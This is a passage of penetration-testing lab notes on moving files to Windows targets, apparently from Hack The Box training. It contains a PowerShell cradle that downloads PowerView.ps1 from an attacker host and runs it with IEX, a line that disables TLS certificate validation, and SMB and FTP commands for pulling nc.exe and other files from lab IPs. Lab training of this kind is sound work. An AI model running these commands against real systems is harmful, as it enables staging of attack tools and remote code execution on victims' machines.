 - download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

#### Common Errors with PowerShell

- Internet Explorer first-launch configuration has not been completed use `-UseBasicParsing`
```powershell-session
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

- SSL/TLS not Trusted

```powershell-session
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

- Using SMB 
server
```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
client
```cmd-session
copy \\192.168.220.133\share\nc.exe
```

```cmd-session
net use n: \\192.168.220.133\share /user:test test
```

- using FTP

server
```shell-session
sudo python3 -m pyftpdlib --port 21
```

client
```powershell-session
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```


- using command file

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```
